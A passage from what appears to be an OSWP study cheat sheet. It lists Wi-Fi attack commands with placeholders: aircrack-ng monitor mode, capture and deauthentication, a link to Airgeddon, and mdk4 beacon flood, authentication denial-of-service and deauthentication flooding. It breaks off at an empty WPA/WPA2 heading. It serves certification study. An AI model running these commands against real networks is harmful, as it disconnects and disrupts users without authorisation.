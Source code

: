 ```
# Start monitor mode
airmon-ng start <INTERFACE>

# Packet capture
airodump-ng -c <CHANNEL> --bssid <BSSID> <INTERFACE>

# Deauthentication attack
aireplay-ng -0 20 -a <BSSID> -c <CLIENT_MAC> <INTERFACE>

or

# Deauthentication broadcast attack
aireplay-ng -0 20 -a <BSSID> <INTERFACE>
```

### Airgeddon

Airgeddon can do pretty much any of the attacks view in this post.

```
https://github.com/v1s1t0r1sh3r3/airgeddon
```

## Not in the OSWP PDF (Going further)

### MKD4

#### Beacon flood (Non very effective)

Sends beacon frames to show fake APs at clients. This can sometimes crash network scanners and even drivers. 

```
mdk4 <INTERFACE> b -n <AP_NAME> b -w nta -m
```

#### Authentication Denial-Of-Service (Non very effective)

Too many authentication requests at one time may cause the wireless access point to freeze up and perhaps stop working entirely.

```
mdk4 <INTERFACE> a -a <BSSID> -m
```

#### Deauthentication Flooding

This will send deauth packets to any and all clients connected to the AP specified in the file.

```
mdk4 <INTERFACE> d -c <CHANNEL> -E <ESSID> -B <BSSID>
```

### WPA/WPA2
